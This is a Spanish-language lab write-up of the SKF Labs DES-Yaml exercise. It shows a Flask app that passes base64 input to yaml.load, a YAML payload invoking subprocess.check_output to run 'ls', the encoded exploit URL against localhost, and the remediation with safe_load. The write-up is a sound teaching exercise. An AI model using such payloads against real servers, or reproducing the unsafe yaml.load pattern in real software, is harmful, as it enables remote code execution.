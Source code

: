 
# 💥 Ataques de Deserialización

> Parte de [[OWASP]]  
> La teoria viene de [[Ataques de Deserialización]]
> Glosario relacionado: [[Serializacion y Deserializacion]]

---

## 🧪 Práctica en SKF Labs

Ruta: `skf-labs/python/DES-Yaml`  
Este laboratorio simula una aplicación vulnerable a ataques de deserialización con **YAML** en **Python 2**.

> 🐍 Requiere Python 2 → se recomienda usar Docker (incluye Dockerfile)

---

## 🐳 Docker: correr el laboratorio

### 1. Construir la imagen

```bash
docker build -t des .
```

📌 `-t des`: etiqueta la imagen con el nombre `des`.

---

### 2. Correr el contenedor

```bash
docker run -dit -p 127.0.0.1:5000:5000 des
```

📌 Redirecciona el puerto `5000` de tu host al `5000` del contenedor (donde corre Flask).

---

## 🌐 Comportamiento de la app

Al ingresar a `http://localhost:5000/`, redirige automáticamente a una URL con datos en **Base64**:

```
http://localhost:5000/information/eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==
```

Decodificando:

```bash
echo -n "eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==" | base64 -d
```

🔎 Resultado:

```
yaml: The information page is still under construction, updates coming soon!
```

---

## 🧬 Análisis del código fuente (Flask)

```python
@app.route("/information/<input>", methods=['GET'])
def deserialization(input):
    try:
        yaml_file = base64.b64decode(input)       # 🔓 ← decodifica
        content = yaml.load(yaml_file)            # 🔥 ← deserializa sin validar
    except:
        content = "The application was unable to deserialize the object!"
    return render_template("index.html", content = content['yaml'])
```

⚠️ **Problema clave**:

- `yaml.load(...)` deserializa datos arbitrarios sin validación.
    
- Si se inyecta un objeto malicioso, se puede ejecutar **código en el servidor**.
    

---

## 🧪 Payload de explotación

Para YAML, se puede inyectar ejecución de comandos (si no hay sanitización).

Ejemplo tomado de [pkmurphy.com.au/isityaml](https://www.pkmurphy.com.au/isityaml/):

```yaml
"contents_of_cwd": !!python/object/apply:subprocess.check_output ['ls']
```

Usamos esta estructura en la app vulnerable:

```yaml
yaml: !!python/object/apply:subprocess.check_output ['ls']
```

---

## 🔐 Generar payload y codificar en base64

1. Guardás el payload en un archivo (por ejemplo: `data`):
    

```
yaml: !!python/object/apply:subprocess.check_output ['ls']
```

2. Codificás con:
    

```bash
cat data | base64 -w 0; echo
```

Salida:

```
eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnbHMnXQo=
```

---

## 🚀 Exploit final

Visitás en el navegador:

```
http://localhost:5000/information/eWFtbDogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnbHMnXQo=
```

🖥️ Resultado en la página:

```
b'DES.py\nDockerfile\nevil_server.py\nfile.yml\nhacker_input.txt\nrequirements.txt\nstatic\ntemplates\n'
```

✅ ¡Se ejecutó el comando `ls` en el servidor!

---

## 🔒 Lecciones aprendidas

- **Nunca uses `yaml.load()` con datos externos.**
    
- Usá `yaml.safe_load()` para evitar ejecución de objetos.
    
- Validá siempre la entrada del usuario.
    
- Serialización insegura = ejecución remota de código (RCE).
    
